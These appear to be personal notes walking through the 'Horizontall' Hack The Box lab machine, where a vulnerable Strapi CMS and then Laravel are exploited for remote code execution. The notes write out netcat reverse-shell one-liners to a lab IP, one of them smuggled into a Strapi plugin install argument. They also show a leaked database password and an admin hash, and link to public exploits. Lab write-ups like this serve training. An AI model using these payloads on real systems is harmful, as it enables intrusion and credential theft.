


# Horizontal



### 08/29/2021

The ip automatically resolve to horizontall.htb



Subdomains bruteforce:


With the directories enumeration we can discover some interesting directories like reviews, it appears to be a API.


Strapi api version:


[https://packetstormsecurity.com/files/163950/Strapi-CMS-3.0.0-beta.17.4-Remote-Code-Execution.html](https://packetstormsecurity.com/files/163950/Strapi-CMS-3.0.0-beta.17.4-Remote-Code-Execution.html)

I tested this exploit and it works well, RCE also works. 


Probably the connection will be done with id_rsa or interesting file, with netcat we can look the output. 


The command don't exit of this directory, we have to try list files and read each one.


Listing directory


CD command doesn't work. 


Transversal execution of linpeas.


Path of binaries 


This reverse worked perfectly:

```java
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 1234 >/tmp/f
```

Passing the reverse to python.


### Strapi is the leading open-source Headless CMS.

Database login file:

```java
cat /myapi/config/environments/development/database.json
```


```java
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```


```java
ssh -R 1337:localhost:1337 strapi@10.10.11.105

http://localhost:1337/admin

admin    | admin@horizontall.htb | $2a$10$wZOeplNzijDtfaYGBR9wqOvD.cMMCRN4HBA7PgTkTnj0Ymvhv0e6W
drwxr-xr-x 2 root root 4096 Aug  3 21:16 /usr/share/keyrings
/usr/share/bash-completion/completions/bind

strapi "install" "documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 1234 >/tmp/f)"
```

### Dissecting the exploit

This function verify the version of strapi that is returned by this page


Reset password: note that in the response returns admin True


Manually craft exploration:


Calls to insert code


$gt. Returns any documents that have a value that is greater than the specified value in the set. It is also referred to as the greater than comparison operator.

To make execution of commands we need of JWT token. The execution of commands is done in plugins install page, sending json code with command. 


It returns forbidden because we need insert JWT in authorization header.


Now authenticated with cookie, we have to create a jwt with plugin and command execution passing port 1337.


Working command execution:


To make port forwarding just add your pubkey in authorized_keys and runs the port forwarding using SSH. 


It's a Laravel PHP v7.4.18


Laravel exploit code: [https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py](https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py), this exploit discover the PATH of logs.

The second exploit execute commands:

[https://packetstormsecurity.com/files/160951/Laravel-8.4.2-Remote-Code-Execution.html](https://packetstormsecurity.com/files/160951/Laravel-8.4.2-Remote-Code-Execution.html)

After many tries  i get the command execution: in payload put between "" to execute all command.


[https://www.youtube.com/watch?v=abEOdicWhNo&ab_channel=CryptoCat](https://www.youtube.com/watch?v=abEOdicWhNo&ab_channel=CryptoCat)
